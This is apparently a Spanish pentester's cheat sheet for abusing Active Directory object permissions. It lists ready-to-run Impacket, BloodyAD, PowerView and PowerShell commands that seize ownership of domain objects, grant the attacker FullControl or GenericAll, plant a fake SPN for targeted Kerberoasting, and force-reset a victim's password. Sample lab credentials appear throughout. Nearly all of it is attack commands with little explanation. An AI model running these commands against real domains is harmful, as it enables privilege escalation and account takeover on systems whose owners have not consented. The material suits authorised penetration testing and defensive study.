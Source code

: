 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sakshi' -target-dn 'CN=ankur,CN=Users,DC=ignite,DC=local' 'ignite.local'/'sakshi':'Password@1' -dc-ip 192.168.1.6

#### Validar el new owner

    ldapsearch -x -H ldap://<IP_O_SERVIDOR> -D "usuario@dominio.com" -w "contraseña" -b "DC=dominio,DC=com" "(distinguishedName=CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com)" nTSecurityDescriptor
### BloodyAD

#### Cambiar el owner

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-owner -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner"

#### Darse full rights

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-permission -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner" -p "GenericAll"

#### Validar ownership y GenericAll

    bloodyAD -u "example\admin" -p "Password123" -d example.local get-object-acl -t "CN=JohnDoe,OU=Users,DC=example,DC=local" | grep -E "(Owner|GenericAll)"
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'TARGET' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET" -PrincipalIdentity "sameer"
#### Validar el nuevo owner

    (Get-ObjectACL -Identity "CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -ResolveGUIDs).Owner
    
### AD powershell
    $user = Get-ADUser -Identity "TARGET" -Properties * 
    $acl = Get-ACL -Path "AD:\$($user.DistinguishedName)"
    $newOwner = (New-Object System.Security.Principal.NTAccount("Dominio\NuevoPropietario"))
    $acl.SetOwner($newOwner)
    Set-ACL -Path "AD:\$($user.DistinguishedName)" -AclObject $acl

#### Validar el nuevo owner

    $acl.Owner

#### Dar full rights
    Set-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -AclObject (Get-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local").AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule -ArgumentList (New-Object System.Security.Principal.NTAccount('Dominio\NuevoOwner')), "GenericAll", "Allow"))

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'TARGET' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "TARGET" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/Target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol ldap contoso.local/target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
